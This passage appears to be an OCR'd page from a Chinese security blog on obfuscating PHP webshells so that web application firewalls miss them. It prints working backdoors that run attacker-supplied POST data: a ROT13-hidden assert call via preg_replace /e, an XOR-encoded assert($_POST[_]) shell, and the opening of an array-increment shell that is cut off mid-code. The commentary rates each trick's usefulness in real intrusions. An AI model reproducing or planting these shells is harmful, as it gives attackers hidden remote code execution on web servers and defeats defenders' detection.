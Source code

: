 
![img](https://klionsec.github.io/img/rot13%20common.png)

```php
<?php  
($req = $_POST['req']) &&@preg_replace('/ad/e','@'.str_rot13('nffreg').'($req)', 'add'); 
?>
```

![img](https://klionsec.github.io/img/str_rot13%20spec.png)

利用url编码以及自定义加解密实现的免杀,其实也有点儿类似编码,因为是自己设置的加密,所以只有通信的双方知道,这样一来waf就很难在未解密数据中识别出webshell特征,不过人眼还是很容易就看出来的

```
不实用
```



利用ASCII码转换,消除特征,如chr…比较简单,也比较原始,这里就不多说了,实战也不推荐用,肉眼扫一下就看出来了

```
不实用
```



利用 xor [^ 异或] ~[取反] 注入此类的位运算,实战中依然不推荐,只要是个正常人基本都能看出来这是啥,实际中记得先把下面的url编码解码过来,务必注意两个特殊字符要用双引号包起来,hackbar上面框中的参数可以不用,只要POST里的参数传对了就行

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```



![img](https://klionsec.github.io/img/xor%20webshell.png)

数组特性,这个就更不推荐了,看似花哨,但正常的项目代码中是根本不可能出现这些东西的,很明显,这无疑是在故意告诉别人,你来了,那,这就是我的webshell,请删除,如果单单只是想免杀,回调和反序列也许会更好,相对比价隐蔽,完全不用这么招摇过市的搞

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
```